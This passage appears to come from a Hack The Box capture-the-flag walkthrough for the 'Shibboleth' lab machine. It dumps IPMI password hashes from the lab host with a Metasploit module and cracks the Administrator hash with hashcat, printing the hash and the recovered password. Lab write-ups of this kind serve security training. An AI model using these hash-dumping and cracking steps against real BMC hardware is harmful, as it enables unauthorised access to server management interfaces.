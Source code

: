 I’ll add each of those to `/etc/hosts` as well:
```console
10.10.11.124 shibboleth.htb monitor.shibboleth.htb monitoring.shibboleth.htb zabbix.shibboleth.htb
```
## <span style="color:lightgreen">monitor.shibboleth.htb - TCP 80</span>

We can see ZABBIX is running on this subdomain upon visiting the site. At the bottom, we can see the copyright till 2021. So this means we could be an outdated service abuse. Since we saw from `shibboleth.htb` is powered by Bare Metal BMC automation, there could be a chance that we could abuse IMPI to get a valid login credential to log in.

![image](https://user-images.githubusercontent.com/59029171/161535439-83b7e2c0-611c-42e1-8c30-01bd6e6ac912.png)

## <span style="color:lightgreen">IMPI - UDP 623</span>

One of the [blogs](http://www.staroceans.org/e-book/IPMI-hack.htm), I read while researching stated that *Most BMCs expose some form of web-based management, a command-line interface such as Telnet or Secure Shell, and the IPMI network protocol on port 623 (UDP and sometimes TCP).*

The article on [Hacktricks](https://book.hacktricks.xyz/pentesting/623-udp-ipmi) demonstrated the exploitation of IMPI and dumping of the users hashes.

Basically, you can ask the server for the hashes MD5 and SHA1 of any username and if the username exists those hashes will be sent back. Yeah, as amazing as it sounds. And there is a metasploit module for testing this.

```console
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf > set rhosts 10.10.11.124
msf > exploit

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:2b68c64d82280000a8c1a7e2d84aba3e0410df33d1bf8d7f39a69fefdb2a49b26877364dbe132618a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:b2726f78047e0ccb5324cb8a4701686d29ad00a5
```

Now we have the administrators hash. we can crack the hash using hashcat and try to login using the found credentials.

```console
0xStarlight@kali$ hashcat -m 7300 hash /home/kali/rockyou.txt

password : ilovepumkinpie1
```

# <span style="color:lightblue">Shell as Zabbix</span>

Great, now we have Administrator user valid credentials.

| Useraname | Password |
|:---       | :---     |
| Administrator | ilovepumkinpie1 |
